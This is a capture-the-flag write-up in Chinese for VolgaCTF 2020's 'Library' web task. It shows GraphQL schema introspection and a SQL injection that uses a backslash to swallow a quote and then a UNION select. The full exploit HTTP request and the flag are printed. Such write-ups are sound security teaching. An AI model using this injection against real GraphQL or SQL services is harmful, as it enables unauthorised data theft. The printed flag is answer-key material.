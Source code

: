 # VolgaCTF Qualifier - 2020

## Web / 150 - Library

>
> We have written a pretty useful library website where you can find all our books.
> URL: http://library.q.2020.volgactf.ru:7781/
>

### Solution

By [@Cyku](https://cyku.tw)

原文連結：[https://cyku.tw/volgactf-2020-qualifier/](https://cyku.tw/volgactf-2020-qualifier/)

---

這題一個簡單的登入、登出功能，登入後就可以看到有儲存書籍的列表。

![Library_01](Library_01.png)

其中背後查詢列表的 API 是透過 GraphQL 來查詢。

![Library_02](Library_02.png)

對於測試 GraphQL API 的起手式就是可以利用內建 Introspection 操作來請求取得所有 Query / Mutation 的 schema，嘗試找出隱藏、可以利用的 API。為了方便性，所以我使用 [GraphQL CLI](https://github.com/Urigo/graphql-cli) 這套工具來協助完成操作。

只要依照順序執行下面兩個指令，就能獲得目標上 GraphQL API 完整的 schema：
```bash
# 產生 .graphqlconfig 設定檔
$ graphql init  

# 取得 schema
$ graphql get-schema
```

![Library_03](Library_03.png)

而我取得的 schema 如下所示：
```graphql
# source: http://library.q.2020.volgactf.ru:7781/api
# timestamp: Sat Mar 28 2020 20:23:14 GMT+0800 (GMT+08:00)

type Book {
  title: String!
  author: String!
  pic: String!
}

type LoginResponse {
  login: String
  name: String
  email: String
  token: String
}

input LoginUser {
  login: String
  password: String
}

type Mutation {
  _empty: String
  register(user: RegisterUser): String
}

type Query {
  _empty: String
  login(user: LoginUser): LoginResponse
  testGetUsersByFilter(filter: UserFilter): [User]
  books: [Book]
}

input RegisterUser {
  login: String
  password: String
  name: String
  email: String
}

type User {
  login: String
  name: String
  email: String
}

input UserFilter {
  login: String
  name: String
  email: String
}
```

其中發現一個有趣的 Query testGetUsersByFilter，這個 Query 可以利用 login、name、email 等三個欄位來查詢存在系統上的使用者，總而言之、言而總之，經過一番黑箱測試後我們發現有 SQL Injection XD，目標會刪除單引號字元，但可以用反斜線 \ 去把後方的單引號吃掉。

黑箱猜測會組成類似如下的 SQL：
```SQL
SELECT * FROM users WHERE login = '$login' AND name = '$name'
```

所以讓 $login = `meow\` 而 $name = `union select 1,2,3,4,user(),6#` 就可以組合出：
```SQL
SELECT * FROM users WHERE login = 'meow\' AND name = 'union select 1,2,3,4,user(),6#'
```

就能利用 union 進行查詢以取得資料庫內容，而剩下的就是一些標準動作了。

![Library_04](Library_04.png)

最後取得 flag 的 Payload:

```plaintext
POST /api HTTP/1.1
Host: library.q.2020.volgactf.ru:7781
Accept: application/json
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://library.q.2020.volgactf.ru:7781/index.html
content-type: application/json
authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6Indvb2ZAbWFpbGluYXRvci5jb20iLCJuYW1lIjoid29vZiIsImxvZ2luIjoid29vZiIsImlhdCI6MTU4NTQ4OTA2MywiZXhwIjoxNTg1NDkyNjYzfQ.D54N_s5LVyUp7LXLZrwimAoA0bDi6WKACTv3NbOEpT0
origin: http://library.q.2020.volgactf.ru:7781
Content-Length: 272
Connection: close

{
    "query":"query testGetUsersByFilter($input: UserFilter) {testGetUsersByFilter(filter: $input){login name email}}",
    "variables":{
        "input":{
            "login":"meow\\",
            "name":"union select 1,2,3,4,flag,6 from flag#"
        }
    }
}
```

Flag：`VolgaCTF{EassY_GgraPhQl_T@@Sk_ek3k12kckgkdak}`
